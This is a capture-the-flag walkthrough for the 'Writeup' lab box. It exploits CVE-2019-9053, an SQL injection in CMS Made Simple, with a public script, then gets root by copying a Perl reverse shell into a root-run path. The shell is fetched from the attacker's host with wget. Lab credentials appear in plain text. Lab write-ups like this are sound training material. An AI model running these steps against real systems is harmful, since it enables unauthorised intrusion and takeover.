

# Writeup

## Introduction
Despite it’s easy rating, this box has a DoS protection system in place that protects it from brute-force based techniques and makes enumeration an extra challenge. Once the system being used is identified we will be using a known exploit for a Common Vulnerabilities and Exposures (CVE) entry, namely an SQL injection for the Content Management System (CMS) called CMS Made Simple. Privilege escalation requires process enumeration to identify the path hijacking vulnerability to trigger root execution of a custom process, in our case this will be a reverse TCP shell.

| Skills Required | Skills Learned |
| ----- | ----------------------------------- |
| Usage of Linux | Path Hijacking |
| Enumeration | Process Enumeration |

NOTE: Thanks to recent updates to burp suite, the enumeration method for this box is only available on versions of burpe suite 1.7.36 and below unless you pay for the professional or enterprise edition. Burp suite community version 1.7.36 with the spider feature can be downloaded from https://portswigger.net/burp/releases/professional-community-1-7-36. There are alternative tools available that can bypass the DoS protection for enumeration such as ZAP https://www.kali.org/tools/zaproxy/.

## Phase 1 – Reconnaissance
Due to the DoS protection in place, the reconnaissance phase involves a port scan and manual enumeration of the services running as the use of tools such as ``dirb`` are limited.

### Port Scanning
Nmap scan using ``nmap -T4 -sC -sV -p- [target ip]`` reveals a web server on port 80 and an SSH service on port 22. By adding ``-oN [filename]`` we can save the scan results to look at later.

### Web Enumeration

The server is using an anti-DoS script so any further enumeration attempts with ``dirb`` or ``fuzz``
will be futile as our IP will be banned for one minute.

When we visit the web URL we are presented with a bizarre looking page which has no functionality. We can enumerate the web service still by intercepting a request with burp-suite, then by right-clicking on it we can ‘send to spider’’. Switch to the ‘target’ tab to see the results.

NOTE: This feature is only available in versions of burp suite 1.7.36 and below. See introduction for additional help.

Navigating to /robots.txt simply gives us a clue that users are not suppose to access the blog yet which is at /writeup. Navigating to /writeup shows a page that links to some notes on solving retired boxes. If you have the Wappalizer extension installed on your browser then it can reveal that this directory is using CMS Made Simple. Alternatively this can be discovered without Wappalizer by using inspect element or view page source.

## Phase 2 – Exploitation
To exploit this machine we need to identify the common vulnerability CVE-2019-9053 and then deploy an exploit which will reveal a user name and password for the machine. Once we have this information we can acquire access via the SSH service running.

### CMS Made Simple SQL Injection
Now that we have established that CMS Made Simple is installed, we can exploit this vulnerable application. We do not know the exact version of the CMS installation however we could see from the page source that it is from 2019. Using the internet we can find a then recent SQL Injection based vulnerability for versions below 2.2.10 known as CVE-2019-9053, there is an exploit associated with it available that could work with our version.

The exploit can be found using ``searchsploit`` which reveals the location of a python script, but the same script can be also found on the internet at https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQLInjection.html. 

The script functions by exploiting an SQL injection vulnerability to acquire the values for the username and email with the password hash, the script can additionally be run with a wordlist which it will attempt to brute-force the password hash it finds. Regardless of how it is acquired, the script can be run along with it’s brute-force function with ``python [scriptname].py -u http://[target IP]/writeup/ --crack -w /usr/share/wordlists/rockyou.txt``. If you get errors it is because the script uses a package that isn’t default with python version 2, to fix this install pip for python 2 with ``sudo apt install pip2`` then use ``pip2 install termcolor``

We can use it with the rockyou.txt wordlist and get the password through the exploit scripts own brute-force function. Alternatively we can decrypt the hash manually at https://www.md5online.org/md5-decrypt.html and since the script has found the salt we know to remove the salt pre-fix from the decrypted string to get the actual password. Our access credentials are finally revealed to be the user name ``jkr`` with the password ``raykayjay9``.

### Accessing the User Account
Now that we have credentials we may first try to attempt to login to the admin web panel at URI ``/writeup/admin``but the credentials will not work. They do however work for gaining access via the SSH service we detected with our port scan.

We now have access to the machine through SSH with user privileges. From here we can get the user flag.

## Phase 3 – Privilege Escalation
To escalate to root privileges will require numeration of the machine processes bu utilizing the tools available to us. Once we identify the vulnerable process, we will be able to force the root level execution of our reverse TCP shell and gain full control and access over the system.

### Process Enumeration
A helpful tool for doing this is a program called pspy by user DominicBreuker which can be easily acquired from https://github.com/DominicBreuker/pspy. We can upload to the target via ``wget`` and a simple python web server.  So that we know whether to use the 32bit or 64bit version of pspu we can check it via SSH using ``uname -a``.

Since we are dealing with a 64-bit operating system and architecture, we will use the 64bit binary file and host it using a python server by using ``sudo python3 -m http.server 80`` from the directory, this will cause that directory to be hosted as a web service. 

After downloading the enumeration tool with ``wget [our IP]/pspy64`` we must use the command ``chmod +x pspy64`` which will make the binary file executable. We can then run the file and it will begin to monitor process activity, revealing for us any possible vulnerabilities.

Since the terminal is now being used for monitoring processes, we must use a separate terminal if we wish to continue using SSH, however upon logging in to SSH we can detect a process called run-parts being executed with root privileges. 

The linux system command ``run-parts`` is used to run all the scripts and programs in a given directory. The vulnerability here is that we are able to access this directory from our user level privileges yet ``run-parts`` command is executed at root level.  This means we can infect the process path with our own process, in this case we can use a shell that will give us access. This type of attack is known as path hijacking.

### Path Hijacking
We can use our python server to upload a reverse TCP shell and then place it into the /bin/run-parts directory, this will mean that next time we connect via SSH we will be able to spawn a shell with root privileges. In this walk-through we will use an executable shell with pearl which can be downloaded from http://pentestmonkey.net/tools/webshells/perl-reverse-shell however one can also be found at ``/usr/share/webshells/perl/perl-reverse-shell.pl``. 

First we need to edit the script to have our IP address and our chosen listener port to send the shell back to. If we save it to our hosted directory, we can use ``wget`` again with our python server to put the shell script on the target machine. To carry out the path hijacking we must copy our shell into the directory being executed via run-parts using ``cp shell.pl /usr/local/bin/run-parts``.  We also need to change the permissions so the file can be executed correctly once again with ``chmod +x /usr/local/bin/run-parts`` on the target.

If we start our listener then use separate terminal window to connect to SSH with ``ssh jkr@[target IP]`` we can spawn ourselves a shell with root permissions and use it to acquire the root flag.

If using a pearl shell and it doesn't work at first, run the file from the user folder on target via the SSH connection when first uploaded then repeat the path hijack process by copying it after it has been run for the first time.

## Conclusion
This machine decides to throw a curve-ball to newer players by using DoS protection to limit enumeration by blocking web directory brute-force tools, however the burp-suite spider method we used here will reveal everything that is required. With some investigation and analysis coupled with online research we can identify a CVE and exploit for the web service. This box introduces the technique of path hijacking to hijack a root level process by manipulating the directory we have access to.
